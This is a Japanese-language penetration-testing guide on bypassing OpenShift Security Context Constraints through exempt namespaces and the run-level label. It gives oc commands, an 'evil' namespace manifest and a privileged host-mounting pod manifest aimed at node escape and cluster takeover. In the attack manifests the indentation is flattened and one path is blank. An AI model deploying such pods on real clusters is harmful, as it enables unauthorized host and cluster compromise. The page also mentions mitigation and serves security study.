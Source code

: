# Openshift - SCC バイパス

**このページの元の著者は** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)

## 特権付きの名前空間

デフォルトでは、SCC は以下のプロジェクトには適用されません：

- **default**
- **kube-system**
- **kube-public**
- **openshift-node**
- **openshift-infra**
- **openshift**

これらの名前空間のいずれかにポッドをデプロイすると、SCC は強制されず、特権付きのポッドのデプロイやホストファイルシステムのマウントが許可されます。

## 名前空間ラベル

RedHat のドキュメントによると、ポッドで SCC アプリケーションを無効にする方法があります。次のいずれかの権限が必要です：

- 名前空間の作成とその名前空間でのポッドの作成
- 名前空間の編集とその名前空間でのポッドの作成
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
特定のラベル`openshift.io/run-level`を使用すると、アプリケーションのためにSCCを回避することができます。RedHatのドキュメントによると、このラベルを使用すると、その名前空間内のすべてのポッドに対してSCCが強制されず、実質的に制限が解除されます。

<figure><img src="../../../.gitbook/assets/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## ラベルの追加

名前空間にラベルを追加するには：
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
以下の手順で、ラベルを持つ名前空間をYAMLファイルを使用して作成します:

```yaml
apiVersion: v1
kind: Namespace
metadata:
  name: my-namespace
  labels:
    my-label: my-value
```
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
現在、名前空間で作成されたすべての新しいポッドにはSCCがないはずです。

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

SCCがない場合、ポッド定義に制限がありません。これは、悪意のあるポッドが簡単に作成されてホストシステムにエスケープする可能性があることを意味します。
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
### OpenShift SCC バイパス

現在、特権を昇格させてホストシステムにアクセスし、その後クラスタ全体を乗っ取り、'cluster-admin' 権限を取得することが容易になりました。次のページの **Node-Post Exploitation** 部分を参照してください：

{% content-ref url="../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md" %}
[attacking-kubernetes-from-inside-a-pod.md](../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md)
{% endcontent-ref %}

### カスタムラベル

さらに、ターゲットのセットアップに基づいて、以前の攻撃シナリオと同様に一部のカスタムラベル / 注釈が使用される場合があります。それが意図されていなくても、ラベルは特定のリソースに権限を付与したり、制限したり、付与しなかったりするために使用される可能性があります。

リソースを読むことができる場合は、カスタムラベルを探してみてください。以下は興味深いリソースのリストです：

* Pod
* Deployment
* Namespace
* Service
* Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## すべての特権名前空間をリストします
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## 高度なエクスプロイト

OpenShiftでは、以前に示したように、`openshift.io/run-level`ラベルが付いた名前空間にポッドをデプロイする権限を持っていると、クラスターの簡単な乗っ取りにつながる可能性があります。クラスター設定の観点から、この機能はOpenShiftの設計上不可欠なため、**無効にすることはできません**。

ただし、**Open Policy Agent GateKeeper**のような緩和措置を取ることで、ユーザーがこのラベルを設定するのを防ぐことができます。

GateKeeperのルールをバイパスしてこのラベルを設定し、クラスターの乗っ取りを実行するには、**攻撃者は代替手法を特定する必要があります。**

## 参考

* [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
* [https://docs.openshift.com/container-platform/3.11/admin\_guide/manage\_scc.html](https://docs.openshift.com/container-platform/3.11/admin\_guide/manage\_scc.html)
* [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)
